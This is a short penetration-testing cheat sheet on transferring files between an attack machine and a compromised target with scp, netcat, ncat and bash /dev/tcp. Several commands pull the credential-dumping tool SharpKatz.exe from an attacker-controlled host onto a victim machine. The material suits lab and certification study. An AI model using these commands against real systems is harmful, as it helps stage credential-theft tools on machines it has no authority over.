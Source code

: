 ### From attack machine to Target (local to remote)

- `sudo systemctl start ssh` start ssh service
- `netstat -lnpt` check ssh for listening port
- In your kali or any linux `scp FILE-TO-SEND user@ip:/path/to/folder`

> Note: You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

### From target to attack (remote to local)

- In your kali or any linux cmd `scp user@ip:/path/to/folder FILE-TO-GET`

### Note

- If you get this error `protocol error: filename does not match request`
- You will need to add `-T` in your command. Here is an example:
- `scp -T user@server:C:\\Path\\To\\file.txt dest-folder`

## Netcat

### From Target to attack machine

#### Target machine

- `nc -lvp PORT-NUMBER > FILE-TO-SEND`
- `nc -l -p 8000 > SharpKatz.exe` works too
- `ncat -l -p 8000 --recv-only > SharpKatz.exe` with ncat

#### Attacking machine

- `nc VICTIM-IP PORT-NUMBER -w 3 < FILE` note: -w is for the time out in seconds
- `nc -q 0 192.168.49.128 8000 < SharpKatz.exe` -q 0 will tell nc to close the connection once it finishes
- `ncat --send-only 192.168.49.128 8000 < SharpKatz.exe` 

### Attack to target

- `sudo nc -l -p 443 -q 0 < SharpKatz.exe` Attack Host - Sending File as Input to Netcat
- `sudo ncat -l -p 443 --send-only < SharpKatz.exe` same with ncat
- `nc 192.168.49.128 443 > SharpKatz.exe` Compromised Machine Connect to Netcat to Receive the File
- `ncat 192.168.49.128 443 --recv-only > SharpKatz.exe` same with netcat

> If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html). Writing to this particular file makes Bash open a TCP connection to host:port, and this feature may be used for file transfers.

### with /dev/tcp

- `sudo nc -l -p 443 -q 0 < SharpKatz.exe` nc - Sending File as Input to nc
- `sudo ncat -l -p 443 --send-only < SharpKatz.exe` same wit ncat
- `cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe` Compromised Machine Connecting to Netcat Using /dev/tcp
